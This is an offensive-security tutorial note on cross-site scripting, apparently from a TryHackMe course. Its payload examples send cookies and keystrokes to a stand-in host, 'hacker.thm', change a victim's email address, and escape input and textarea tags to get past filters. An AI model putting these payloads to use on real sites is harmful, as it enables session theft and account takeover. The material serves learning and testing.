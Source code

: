 ```yaml
---
title: Cross-site Scripting
---
```


_Cross-Site Scripting_, is an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

Cross-site scripting vulnerabilities are extremely common:

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)

## XSS payloads

The XSS [payload](knowledge/offsec/glossary/payload.md) is the JavaScript code we wish to be executed on the targets computer.

There are two parts to the payload:

- _The intention_ - it's is what you wish the JavaScript to actually do
- _The modification_ - it's the changes to the code we need to make it execute as every scenario is different

## Examples of XSS intentions

- Proof of Concept - the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website
  - `<script>alert('XSS');</script>`
- Stealing user session from Cookies
  - `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
- Key logging
  - `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- Targeted at the business logic
  - a lot more specific than the examples above
  - calling a particular network resource or a JS fn, e.g. `user.changeEmail()`
  - `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Types of XSS

- [reflected-xss](knowledge/offsec/pentesting/reflected-xss.md)
- [stored-xss](knowledge/offsec/pentesting/stored-xss.md)
- [dom-based-xss](knowledge/offsec/pentesting/dom-based-xss.md)
- [blind-xss](knowledge/offsec/pentesting/blind-xss.md)

## Escaping HTML

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)

Let's say, we have a form that takes a name and renders it inside the `input` tag:

```html
<div class="text-center">
  <h2>Hello, <input value="Adam" /></h2>
</div>
```

The JavaScript payload can't run it from inside the `input` tag. We need to escape the `input` tag first so the payload can run properly. We can do this with the following payload:

```
"><script>alert('THM');</script>
```

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

```html
<div class="text-center">
  <h2>
    Hello, <input value="" />
    <script>
      alert("THM");
    </script>
    ">
  </h2>
</div>
```

In case of `textarea`, escaping looks a bit different. We're closing the `textarea` tag first:

```html
<!-- payload -->
</textarea><script>alert("THM");</script>
```

```html
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert("THM");</script></textarea></h2>
</div>
```

To get around the filters, we can also take advantage of the additional attributes of the tags, such as the `onload` event of an `img` tag. `onload` executes the code of your choosing once the image specified in the `src` attribute has loaded onto the web page:

```
/images/cat.jpg" onload="alert('THM');` 
```
